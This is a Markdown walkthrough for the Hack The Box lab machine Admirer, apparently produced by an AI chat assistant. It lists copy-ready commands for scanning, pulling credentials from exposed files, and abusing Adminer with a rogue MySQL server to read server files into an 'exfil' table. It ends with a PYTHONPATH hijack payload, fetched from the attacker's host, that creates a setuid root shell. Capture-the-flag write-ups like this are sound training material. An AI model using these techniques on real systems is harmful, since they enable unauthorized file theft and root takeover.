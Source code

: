 Here’s a **clean, copy-ready markdown walkthrough for HTB: Admirer**, organized by stage with all relevant commands and brief explanations. You can paste this directly into your notes or GitHub:

---

# 🔍 HTB: Admirer — Walkthrough

**OS:** Linux  
**Difficulty:** Easy  
**Tags:** `ftp`, `adminer`, `mysql`, `pythonpath`, `privesc`, `path hijack`

---

## 📡 Recon

### Full TCP Port Scan

```bash
nmap -p- --min-rate 10000 -oA scans/nmap-alltcp 10.10.10.187
```

### Service and Script Scan

```bash
nmap -p 21,22,80 -sC -sV -oA scans/nmap-tcpscripts 10.10.10.187
```

---

## 🌐 Web Enum

### robots.txt

```bash
curl http://10.10.10.187/robots.txt
```

- Found `/admin-dir` → 403 Forbidden
- Mention of username: **waldo**

### Gobuster on `/`

```bash
gobuster dir -u http://10.10.10.187 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php -t 20 -o scans/gobuster-root-medium-php
```

### Gobuster on `/admin-dir`

```bash
gobuster dir -u http://10.10.10.187/admin-dir \
  -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt \
  -x php,txt,zip,html -t 20 -o scans/gobuster-admindir
```

- Found: `contacts.txt`, `credentials.txt`

---

## 📁 Sensitive Files

### contacts.txt

```bash
curl http://10.10.10.187/admin-dir/contacts.txt
```

### credentials.txt

```bash
curl http://10.10.10.187/admin-dir/credentials.txt
```

- FTP creds: `ftpuser : %n?4Wz}R$tTF7`

---

## 📤 FTP Access

```bash
wget --user ftpuser --password '%n?4Wz}R$tTF7' -m ftp://10.10.10.187
```

- Files: `dump.sql`, `html.tar.gz`

### Extract and Analyze Code

```bash
tar -xzf html.tar.gz
```

Look for:
- `utility-scripts/`
- `w4ld0s_s3cr3t_d1r/`

#### Database Credentials Found

From `index.php` / `db_admin.php`:
```php
$servername = "localhost";
$username = "waldo";
$password = "]F7jLHw:*G>UPrTo}~A\"d6b";  # backup creds
$password = "&<h5b~yK3F#{PaPB&dA}{H>";  # live creds
```

---

## 💽 Adminer Exploit for File Read

Visit:
```text
http://10.10.10.187/utility-scripts/adminer.php
```

### Setup Local MySQL for Remote Read

```sql
GRANT ALL PRIVILEGES ON *.* TO root@'10.10.10.187' IDENTIFIED BY '0xdf' WITH GRANT OPTION;
```

```sql
CREATE DATABASE pwn;
USE pwn;
CREATE TABLE exfil (data VARCHAR(256));
```

### In Adminer

Connect to local MySQL using:
- Host: your IP
- User: `root`
- Pass: `0xdf`
- DB: `pwn`

Then execute:
```sql
LOAD DATA LOCAL INFILE '/var/www/html/index.php' 
INTO TABLE exfil
FIELDS TERMINATED BY "\n";
```

View results:
```sql
SELECT * FROM exfil;
```

---

## 🔑 SSH as Waldo

```bash
sshpass -p '&<h5b~yK3F#{PaPB&dA}{H>' ssh waldo@10.10.10.187
```

✅ Grab `user.txt`

---

## 🧑‍🔧 Privilege Escalation: Python Path Hijack

### Check Sudo Rights

```bash
sudo -l
```

- Can run: `/opt/scripts/admin_tasks.sh` with `SETENV`
- Calls: `/opt/scripts/backup.py` → uses `shutil`

### Exploit Plan

1. Create malicious `shutil.py` in writable dir.
2. Set `PYTHONPATH` to load it.
3. Hijack `make_archive()` to run as root.

### Payload: `shutil.py`

```python
#!/usr/bin/python3
import os

def make_archive(a, b, c):
    os.system("cp /bin/bash /var/tmp/rootbash; chmod +s /var/tmp/rootbash")
```

### Upload & Trigger

```bash
cd /var/tmp
wget http://<your-ip>/shutil.py
sudo PYTHONPATH=/var/tmp /opt/scripts/admin_tasks.sh 6
```

### Spawn Root Shell

```bash
/var/tmp/rootbash -p
```

✅ Grab `root.txt`